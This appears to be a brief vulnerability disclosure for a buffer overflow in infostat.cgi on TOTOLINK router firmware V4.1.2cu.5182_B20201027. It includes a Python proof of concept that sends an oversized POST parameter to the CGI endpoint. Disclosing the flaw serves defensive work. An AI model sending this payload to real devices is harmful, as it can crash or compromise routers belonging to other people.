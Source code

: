 # Firmware:
TOTOLINK:V4.1.2cu.5182_B20201027
http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=62&ids=36

# Detail:

Parameters in infostat.cgi are not filtered, causing a buffer overflow vulnerability
![CZ}53``7N)N5EZ{Y6JDUJ(L](https://user-images.githubusercontent.com/84966968/183253587-485e610d-b3b6-4ef4-95b5-9b05818f7620.png)
# poc：
```
import requests
data = {'a':'a'*0x4000}
res = requests.post("http://11.11.11.2/cgi-bin/infostat.cgi", data=data)
print(res.content)
```
